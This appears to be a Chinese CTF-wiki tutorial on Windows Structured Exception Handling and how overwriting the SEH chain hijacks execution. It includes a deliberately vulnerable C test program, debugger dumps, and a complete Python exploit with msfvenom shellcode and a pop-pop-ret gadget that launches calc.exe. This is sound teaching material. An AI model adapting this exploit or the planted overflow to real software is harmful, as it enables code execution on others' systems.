

# SEH(Structured Exception Handling)
## Instruction
结构化异常处理（SEH）是一种 Windows 机制，用于一致地处理硬件和软件异常。该结构通常表示为 try / except或try / catch 代码块。
```C
__try {
    // the block of code to try (aka the "guarded body")
    ...
}
__except (exception filter) {
    // the code to run in the event of an exception (aka the "exception handler)
    ...
}
```
异常处理程序可以由应用程序（通过上述 __try / __ except 构造）或由操作系统本身实现。由于错误的类型很多（除零，超出范围等），因此可以有许多相应的异常处理程序。

不论在何处定义异常处理程序（应用程序与操作系统），还是设计异常处理程序的类型，所有处理程序均由 Windows SEH 通过指定数据结构和函数的集合进行集中统一管理。

## SEH的主要组成部分
对于每个异常处理程序，都有一个 Exception Registration Record 结构，如下所示：
```C
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```
这些 Exception Registration Record 使用链表的结构连接在一起 。其中的第一个字段（*Next）是指向SEH链中下一个 _EXCEPTION_REGISTRATION_RECORD 的指针。换句话说，可以使用 *Next 从上到下浏览 SEH 链。第二个字段（Handler）是指向异常处理函数的指针，该函数如下所示：
```C
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```
第一个函数参数是指向 _EXCEPTION_RECORD 结构的指针。该结构包含有关给定异常的信息，包括异常代码，异常地址和参数数量。

_except_handler 函数使用这些信息，以确定异常是否可以由当前异常处理函数处理，或者它需要移交到下一个 Exception Registration Record 进行处理。


## 利用SEH
在 SEH 下，直接覆盖 SEH_Handler 字段，然后触发异常后，就可以直接控制程序的执行流。测试程序代码（使用VS2017命令行编译）：
```C
// cl SEH_Chain.c /GS- /DYNAMICBASE:NO /link /FIXED
int vul()
{
    char s[0x20] = {0};
    __try
    {
        scanf("%s",s);
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        puts("GG");
    }        
    return 0;
}

int main(int argc, char **argv)
{
    puts("Welcome!");
    vul();
    return 0;
}
```
未修改的SEH链：
```
地址       异常处理例程   模块/标签     注释
0019FF60    00401E10    seh_chain 
0019FFCC    77A79F80    ntdll     
0019FFE4    77A88F07    ntdll     
```
栈空间：
```
0019FF60  0019FFCC  指向SEH_Record[1]的指针
0019FF64  00401E10  seh_chain.00401E10
0019FF68  E1C62A0A  
0019FF6C  00000000  
0019FF70  0019FF80  
0019FF74  76036359  返回到 kernel32.76036359 自 ???
0019FF78  00379000  
0019FF7C  76036340  kernel32.76036340
0019FF80  0019FFDC  
0019FF84  77A67B74  返回到 ntdll.77A67B74 自 ???
0019FF88  00379000  
0019FF8C  E03A396D  
0019FF90  00000000  
0019FF94  00000000  
0019FF98  00379000  
0019FF9C  00000000  
0019FFA0  00000000  
0019FFA4  00000000  
0019FFA8  00000000  
0019FFAC  00000000  
0019FFB0  00000000  
0019FFB4  00000000  
0019FFB8  00000000  
0019FFBC  00000000  
0019FFC0  00000000  
0019FFC4  0019FF8C  
0019FFC8  00000000  
0019FFCC  0019FFE4  指向SEH_Record[2]的指针
0019FFD0  77A79F80  ntdll.77A79F80
```
可以很清晰的看到SEH链的存在。scanf覆盖之后的SEH链：
```
地址       异常处理例程   模块/标签 注释
0019FF10    42424242  
42424242    00000000  
```
处理例程和下个SEH结构的位置都已经被修改。尝试输入大量数据以触发异常：
```python
python -c "print 'A'*0x28 + 'B'*8 + 'A'*0x200"
```
触发异常后的寄存器：
```
EAX : 00000000
EBX : 00000000
ECX : 42424242
EDX : 77A88DC0     ntdll.77A88DC0
EBP : 0019F0D8
ESP : 0019F0B8
ESI : 00000000
EDI : 00000000
EIP : 42424242
EFLAGS : 00010246
```
可以看到，EIP已经被控制到了输入的 BBBB(42424242) 处，从而控制了程序的执行流。
## SEH的常用利用方式
[attachment here](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/windows/SEH_Chain_VC6.exe)

EIP被控制后的栈空间：
```
0019F0B8  77A88DA2  返回到 ntdll.77A88DA2 自 ???
0019F0BC  0019F1B8  
0019F0C0  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA... "
0019F0C4  0019F208  
0019F0C8  0019F144  &"BBBBBBBBAAAAAAAAAAAAAAAA... "
0019F0CC  0019F6FC  指向SEH_Record[1]的指针
0019F0D0  77A88DC0  ntdll.77A88DC0
0019F0D4  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA..."
0019F0D8  0019F1A0  
```
可以看到 ESP+0x8 处的地址正好指向触发异常的 SEH 的结构处，当程序未开启 DEP 时，可以通过 POP+POP+RET 的方式，执行到 ShellCode 上。寻找一个 gadget：（x32dbg ->右击->搜索->所有模块->命令，或者其他方法寻找）
```asm
0040292A | 5E | pop esi |
0040292B | 5B | pop ebx |
0040292C | C3 | ret     |
```
编写一个EXP：
```python
from pwintools import *
import struct

def p32(addr):
    return struct.pack("<I",addr)

pop_pop_ret = 0x0040136F

p = Process("./SEH_Chain_VC6.exe")

# msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x09\x0a\x0b\x0c\x0d\x1a\x20' -f python
buf =  ""
buf += "\xb8\xb6\xc7\xe5\xf9\xda\xdb\xd9\x74\x24\xf4\x5d\x29"
buf += "\xc9\xb1\x31\x83\xed\xfc\x31\x45\x0f\x03\x45\xb9\x25"
buf += "\x10\x05\x2d\x2b\xdb\xf6\xad\x4c\x55\x13\x9c\x4c\x01"
buf += "\x57\x8e\x7c\x41\x35\x22\xf6\x07\xae\xb1\x7a\x80\xc1"
buf += "\x72\x30\xf6\xec\x83\x69\xca\x6f\x07\x70\x1f\x50\x36"
buf += "\xbb\x52\x91\x7f\xa6\x9f\xc3\x28\xac\x32\xf4\x5d\xf8"
buf += "\x8e\x7f\x2d\xec\x96\x9c\xe5\x0f\xb6\x32\x7e\x56\x18"
buf += "\xb4\x53\xe2\x11\xae\xb0\xcf\xe8\x45\x02\xbb\xea\x8f"
buf += "\x5b\x44\x40\xee\x54\xb7\x98\x36\x52\x28\xef\x4e\xa1"
buf += "\xd5\xe8\x94\xd8\x01\x7c\x0f\x7a\xc1\x26\xeb\x7b\x06"
buf += "\xb0\x78\x77\xe3\xb6\x27\x9b\xf2\x1b\x5c\xa7\x7f\x9a"
buf += "\xb3\x2e\x3b\xb9\x17\x6b\x9f\xa0\x0e\xd1\x4e\xdc\x51"
buf += "\xba\x2f\x78\x19\x56\x3b\xf1\x40\x3c\xba\x87\xfe\x72"
buf += "\xbc\x97\x00\x22\xd5\xa6\x8b\xad\xa2\x36\x5e\x8a\x5d"
buf += "\x7d\xc3\xba\xf5\xd8\x91\xff\x9b\xda\x4f\xc3\xa5\x58"
buf += "\x7a\xbb\x51\x40\x0f\xbe\x1e\xc6\xe3\xb2\x0f\xa3\x03"
buf += "\x61\x2f\xe6\x67\xe4\xa3\x6a\x46\x83\x43\x08\x96"

payload = ""
payload += "\x90"*0x28
payload += "\xEB\x14\x90\x90" # asm("jmp $+22")
payload += p32(pop_pop_ret)
payload += "\x90"*0x20
payload += buf
payload = payload.ljust(0x200,"\x90")

raw_input()
p.sendline(payload)
raw_input()
```
执行exp后，将会弹出一个计算器。

